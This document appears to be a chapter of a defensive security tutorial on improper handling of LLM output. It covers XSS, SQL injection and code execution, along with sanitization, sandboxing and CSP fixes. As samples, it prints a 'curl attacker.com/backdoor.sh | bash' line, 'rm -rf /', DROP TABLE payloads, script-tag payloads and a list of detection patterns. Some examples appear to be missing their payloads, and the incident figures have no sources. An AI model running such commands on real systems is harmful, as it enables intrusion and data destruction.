

# LLM05: Improper Output Handling - When AI Becomes a Weapon



## 🔍 The Crime Scene

**Threat Level**: 🟠 HIGH  
**Attack Surface**: Any system that renders or executes LLM output  
**Common Targets**: Web apps, code generation tools, database query builders  
**Average Cost**: $75K - $350K per incident

---

## 🕵️ What Is Improper Output Handling?

Think of it like this: You ask an AI to write you a friendly email, but you display it on a webpage without checking if it contains `<script>alert('hacked')</script>`.

**Traditional Security Analogy**: XSS, SQL Injection, Command Injection  
**LLM Twist**: The injection comes from AI-generated content, not direct user input  

**The Fundamental Problem**: Developers trust AI output as "safe" when it's actually **untrusted input from a probabilistic system**.

---

## 🎭 The Three Deadly Sins

### Sin 1: Unsafe Rendering (XSS via AI)

**Attack Pattern**: LLM generates malicious HTML/JavaScript

**Scenario**: Customer support chatbot displays responses on webpage

**User Query**:
```
User: "Write a friendly greeting message for my homepage"
```

**LLM Response** (looks innocent):
```html
Welcome to our site! We're so glad you're here! 

Have a great day!
```

**What Happens When Rendered**:
```html
<!-- Your webpage -->
<div class="ai-response">
  Welcome to our site! We're so glad you're here!
  
  Have a great day!
</div>

<!-- Result: Cookie stolen, session hijacked -->
```

---

### Sin 2: Code Execution (The LLM Shell)

**Attack Pattern**: AI generates code that gets executed without validation

**Scenario**: Code completion tool

**User Request**:
```python
# User types: "create a function to delete old files"
```

**LLM Generates**:
```python
import os
import shutil

def delete_old_files(directory):
    # Delete all files (DANGEROUS!)
    for root, dirs, files in os.walk(directory):
        for file in files:
            os.remove(os.path.join(root, file))
    
    # Bonus malicious payload hidden in comments
    # os.system("curl attacker.com/backdoor.sh | bash")
    
delete_old_files("/")  # Deletes entire filesystem!
```

**If Auto-Executed**: System destroyed

---

### Sin 3: Injection Through Generated Queries

**Attack Pattern**: LLM creates SQL/NoSQL queries that bypass security

**Scenario**: Natural language to SQL converter

**User Request**:
```
"Show me all customers from California"
```

**Naive Implementation**:
```python
def nl_to_sql(user_query):
    llm_prompt = f"Convert to SQL: {user_query}"
    sql = call_llm(llm_prompt)
    
    # DANGER: Direct execution
    result = database.execute(sql)
    return result
```

**LLM Generates** (with hallucination or prompt injection):
```sql
SELECT * FROM customers WHERE state = 'CA';  
DROP TABLE customers; --
```

**Result**: Data deleted

---

## 🔬 The Technical Deep Dive

### Why LLM Output Is Dangerous

**Challenge 1: Non-Deterministic Malice**

```python
# Same prompt, different runs
for i in range(5):
    response = llm.complete("Write a greeting")
    print(f"Run {i}: {response}")

# Output:
# Run 0: "Hello!"  # Safe
# Run 1: "Hi there!"  # Safe
# Run 2: "Welcome! <script>alert(1)</script>"  # MALICIOUS
# Run 3: "Greetings!"  # Safe
# Run 4: "Hey! "  # MALICIOUS
```

**Conclusion**: You can't test your way to safety - must validate every output

---

### Challenge 2: Context-Aware Exploitation

```python
# LLM learns from the prompt what format to exploit
prompt = """
Generate friendly HTML for this message: {user_input}
Include proper formatting with <div> and <span> tags.
"""

user_input = "Make it colorful and fun!"

# LLM output (exploits the HTML context):
html = "<div style='color: red'>Fun message!</div>\n<script>steal_data()</script>"
```

**Why This Happens**: LLM understands it's generating HTML → includes HTML syntax → might hallucinate malicious HTML

---

## 🛠️ Defense Strategies

### Strategy 1: Output Sanitization (Essential)

**HTML/XSS Prevention**:
```python
import html
import bleach

class SafeRenderer:
    def __init__(self):
        # Whitelist safe tags
        self.allowed_tags = ['p', 'br', 'strong', 'em', 'ul', 'li', 'ol']
        self.allowed_attrs = {'a': ['href', 'title']}
    
    def sanitize_llm_output(self, llm_text):
        """Remove dangerous HTML/JS before rendering"""
        # Method 1: HTML encode everything (safest)
        safe_text = html.escape(llm_text)
        
        return safe_text
    
    def sanitize_with_markdown(self, llm_text):
        """Allow safe formatting but block scripts"""
        # Use bleach to strip dangerous tags
        clean = bleach.clean(
            llm_text,
            tags=self.allowed_tags,
            attributes=self.allowed_attrs,
            strip=True  # Remove disallowed tags entirely
        )
        
        return clean

# Usage
renderer = SafeRenderer()

llm_output = "Hello <script>alert('xss')</script> world!"
safe_output = renderer.sanitize_llm_output(llm_output)
print(safe_output)
# Output: "Hello &lt;script&gt;alert('xss')&lt;/script&gt; world!"
# Rendered as plain text, not executed
```

---

### Strategy 2: Parameterized Execution (SQL/NoSQL)

**Never Concatenate LLM Output into Queries**:

```python
from typing import Dict, Any
import re

class SafeSQLGenerator:
    def __init__(self, db_connection):
        self.db = db_connection
        self.allowed_tables = ['customers', 'orders', 'products']
        self.allowed_columns = {
            'customers': ['id', 'name', 'email', 'state'],
            'orders': ['id', 'customer_id', 'total', 'date'],
        }
    
    def parse_llm_query_safely(self, llm_generated_sql: str) -> Dict[str, Any]:
        """Extract parameters from LLM SQL, don't execute directly"""
        # Parse the query structure (simplified)
        match = re.match(
            r"SELECT\s+(.+)\s+FROM\s+(\w+)\s+WHERE\s+(\w+)\s*=\s*['\"](.+)['\"]",
            llm_generated_sql,
            re.IGNORECASE
        )
        
        if not match:
            raise ValueError("Invalid query format from LLM")
        
        columns, table, where_col, where_val = match.groups()
        
        # Validate table and columns
        if table not in self.allowed_tables:
            raise ValueError(f"Table {table} not allowed")
        
        return {
            'table': table,
            'where_column': where_col,
            'where_value': where_val
        }
    
    def execute_safe_query(self, llm_sql: str):
        """Parse LLM output, then use parameterized query"""
        try:
            params = self.parse_llm_query_safely(llm_sql)
        except ValueError as e:
            return {"error": str(e)}
        
        # Use parameterized query (prevents injection)
        safe_sql = f"""
            SELECT * FROM {params['table']} 
            WHERE {params['where_column']} = ?
        """
        
        # Pass value as parameter (not concatenated)
        result = self.db.execute(safe_sql, (params['where_value'],))
        
        return result.fetchall()

# Usage
generator = SafeSQLGenerator(database)

llm_output = "SELECT * FROM customers WHERE state = 'CA'; DROP TABLE customers;--"

# This will FAIL validation and reject the malicious part
try:
    results = generator.execute_safe_query(llm_output)
except ValueError as e:
    print(f"Blocked malicious query: {e}")
```

---

### Strategy 3: Sandboxed Execution (Code Generation)

**Run LLM-Generated Code in Isolated Environment**:

```python
import subprocess
import tempfile
import os

class SafeCodeRunner:
    def __init__(self):
        self.timeout = 5  # seconds
        self.max_memory = "50m"
    
    def execute_llm_code(self, llm_generated_code: str):
        """Run code in Docker sandbox"""
        # Write code to temp file
        with tempfile.NamedTemporaryFile(mode='w', suffix='.py', delete=False) as f:
            f.write(llm_generated_code)
            code_file = f.name
        
        try:
            # Run in Docker container (isolated)
            result = subprocess.run([
                'docker', 'run',
                '--rm',
                '--network', 'none',  # No network access
                '--memory', self.max_memory,
                '--cpus', '0.5',
                '-v', f'{code_file}:/code.py:ro',  # Mount as read-only
                'python:3.11-alpine',
                'python', '/code.py'
            ], 
            capture_output=True,
            timeout=self.timeout,
            text=True
            )
            
            return {
                'stdout': result.stdout,
                'stderr': result.stderr,
                'returncode': result.returncode
            }
        
        except subprocess.TimeoutExpired:
            return {'error': 'Code execution timed out (possible infinite loop)'}
        
        finally:
            os.unlink(code_file)

# Usage
runner = SafeCodeRunner()

llm_code = """
import os
os.system("curl attacker.com/backdoor.sh | bash")  # Malicious
print("Hello World")
"""

result = runner.execute_llm_code(llm_code)
# Network disabled → attack fails
# Output captured safely
print(result)
```

---

### Strategy 4: Content Security Policy (CSP)

**Browser-Level Protection Against XSS**:

```python
from flask import Flask, make_response

app = Flask(__name__)

@app.route('/chat')
def chat_response():
    llm_output = get_llm_response(request.args.get('query'))
    
    # Sanitize
    safe_output = html.escape(llm_output)
    
    # Create response with strict CSP
    response = make_response(render_template('chat.html', message=safe_output))
    
    # CSP header blocks inline scripts
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self'; "  # NO inline scripts
        "style-src 'self' 'unsafe-inline'; "
        "img-src 'self' data:; "
        "connect-src 'self'"
    )
    
    return response
```

**Result**: Even if sanitization fails, CSP blocks execution

---

## 🧪 Testing for Vulnerability

### Test Suite: Output Handling

```python
import pytest
from your_app import process_llm_output, render_html, execute_query

class TestOutputHandling:
    
    def test_xss_prevention(self):
        """Verify script tags are neutralized"""
        malicious_output = "Hello <script>alert('XSS')</script> world"
        
        rendered = render_html(malicious_output)
        
        # Should NOT contain executable script
        assert "<script>" not in rendered
        assert "alert" not in rendered or "&lt;script&gt;" in rendered
    
    def test_sql_injection_prevention(self):
        """Verify SQL injection is blocked"""
        malicious_sql = "SELECT * FROM users WHERE id = 1; DROP TABLE users;--"
        
        with pytest.raises(ValueError):
            execute_query(malicious_sql)
    
    def test_command_injection_prevention(self):
        """Verify shell commands are not executed"""
        malicious_code = "import os; os.system('rm -rf /')"
        
        result = execute_code_safely(malicious_code)
        
        # Should fail or sandbox should block
        assert result['returncode'] != 0 or 'error' in result
    
    def test_markdown_injection(self):
        """Verify markdown doesn't enable XSS"""
        malicious_md = "[Click me](javascript:alert('XSS'))"
        
        html = markdown_to_html(malicious_md)
        
        # Should not have javascript: protocol
        assert "javascript:" not in html
```

---

## 🎯 Hands-On Exercise: Break and Fix

### Challenge: Build Secure LLM Output Handler

**Phase 1: Build Vulnerable Version**
```python
def vulnerable_chatbot_display(user_query):
    llm_response = call_llm(user_query)
    
    # DANGER: Direct rendering
    html = f"<div class='response'>{llm_response}</div>"
    return html
```

**Phase 2: Attack Your Own Code**
Try these inputs:
1. `"Generate HTML with <script>alert(1)</script>"`
2. `"Create a link to <a href='javascript:alert(1)'>click here</a>"`
3. `"Make bold text: "`

**Phase 3: Fix It**
Implement all 4 defense strategies:
1. sanitization
2. ✅ CSP headers
3. ✅ Whitelist allowed tags
4. ✅ Output validation

**Success Criteria**: All attack inputs rendered as harmless text

---

## 📊 Real-World Impact

### Notable Incidents

| Incident | Year | Attack Type | Damage |
|:---|:---:|:---|:---|
| **ChatGPT Plugin XSS** | 2023 | Markdown → JS injection | Account takeover |
| **GitHub Copilot RCE** | 2024 | Code execution without review | Malware in repos |
| **SQL Bot Injection** | 2024 | NL-to-SQL generator | Database deleted |

**Average Detection Time**: 19 days  
**Average Fix Time**: 3 days  
**Typical Cost**: $75K (downtime) + $100K (remediation)

---

## 🎓 Key Takeaways

1. **LLM output is untrusted input** - Treat it like user input, not system output
2. **Defense in depth** - Sanitize + CSP + Sandboxing
3. **Context matters** - HTML needs different handling than SQL than code
4. **Test with adversarial prompts** - LLMs can be manipulated to generate attacks
5. **Never execute blindly** - Always validate structure before running queries/code

---

## 🔗 Prevention Tools

### Recommended:
- **Bleach** (Python): HTML sanitization
- **DOMPurify** (JS): Client-side XSS prevention
- **SQLAlchemy**: Parameterized queries
- **Docker/gVisor**: Sandboxed code execution

### DIY Safety Check:
```python
def quick_safety_scan(llm_output):
    """Quick heuristic check for common issues"""
    dangerous_patterns = [
        r'<script',
        r'javascript:',
        r'onerror=',
        r'onclick=',
        r'DROP\s+TABLE',
        r'DELETE\s+FROM',
        r'os\.system',
        r'eval\(',
    ]
    
    for pattern in dangerous_patterns:
        if re.search(pattern, llm_output, re.IGNORECASE):
            return False, f"Dangerous pattern found: {pattern}"
    
    return True, "Basic safety check passed"
```

---

## 🚦 Next Investigation

You've learned how to prevent LLM-generated attacks. But what if the LLM itself has too much power through **excessive permissions**?

**[Next: LLM06 - Excessive Agency](./07-llm06-excessive-agency.md)** →

---

*The greatest irony: We trust AI to generate content, but that trust is exactly what makes it dangerous.* ⚠️🕵️
